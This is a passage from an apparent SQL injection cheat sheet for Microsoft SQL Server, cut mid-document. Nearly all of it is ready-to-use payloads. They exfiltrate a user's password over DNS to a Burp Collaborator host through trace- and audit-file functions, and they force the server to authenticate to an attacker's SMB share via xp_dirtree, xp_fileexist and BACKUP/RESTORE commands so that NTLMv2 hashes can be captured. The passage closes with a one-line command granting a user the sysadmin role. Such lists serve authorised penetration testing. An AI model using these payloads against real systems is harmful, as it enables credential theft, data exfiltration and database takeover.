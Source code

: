 GO
\`\`\`

## MSSQL Out of band

### MSSQL DNS exfiltration

Technique from https://twitter.com/ptswarm/status/1313476695295512578/photo/1

\`\`\`powershell
# Permissions: Requires VIEW SERVER STATE permission on the server.
1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))

# Permissions: Requires the CONTROL SERVER permission.
1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
\`\`\`


### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

\`\`\`sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
\`\`\`

\`\`\`sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
\`\`\`


## MSSQL Make user DBA (DB admin)

\`\`\`sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
\`\`\`
